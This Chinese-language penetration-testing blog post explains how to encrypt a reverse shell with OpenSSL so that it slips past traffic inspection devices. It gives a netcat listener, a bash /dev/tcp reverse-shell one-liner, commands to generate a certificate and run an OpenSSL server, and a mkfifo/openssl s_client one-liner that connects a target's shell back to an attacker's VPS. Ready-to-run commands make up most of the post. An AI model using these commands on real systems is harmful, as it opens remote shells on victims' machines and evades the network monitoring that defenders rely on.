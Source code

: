 ```yaml
---
title: "Encrypt Reverse Shell"
date: 2019-08-26T12:55:07+08:00
draft: false
tags: ['reverse','shell']
categories: ['渗透测试']
---
```

利用openssl加密你的shell
<!--more-->

在我们实际的渗透测试过程中，总是有各种各样的流量审查设备挡住我们通往system的道路，尤其是在反弹shell的时候，明文传输的shell总是容易断，那么本文介绍一种利用openssl反弹流量加密的shell来绕过流量审查设备。

## 常规bash反弹

vps执行 `nc -lvvp 4444`

目标主机执行 `bash -i >& /dev/tcp/172.16.1.1/4444 0>&1`

![20190826131727](https://y4er.com/img/uploads/20190826131727.png)

流量明文传输，很容易被拦截。

## openssl加密传输

第一步，在vps上生成SSL证书的公钥/私钥对
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
第二步，在VPS监听反弹shell
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 4433
```
第三步，在目标上用openssl加密反弹shell的流量
```bash
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect vps:443 > /tmp/s;rm /tmp/s
```

![20190826132310](https://y4er.com/img/uploads/20190826132310.png)

流量已经被加密。

## 参考链接

1. https://www.t00ls.net/articles-52477.html
2. https://www.freebuf.com/vuls/211847.html
3. https://www.cnblogs.com/heycomputer/articles/10697865.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**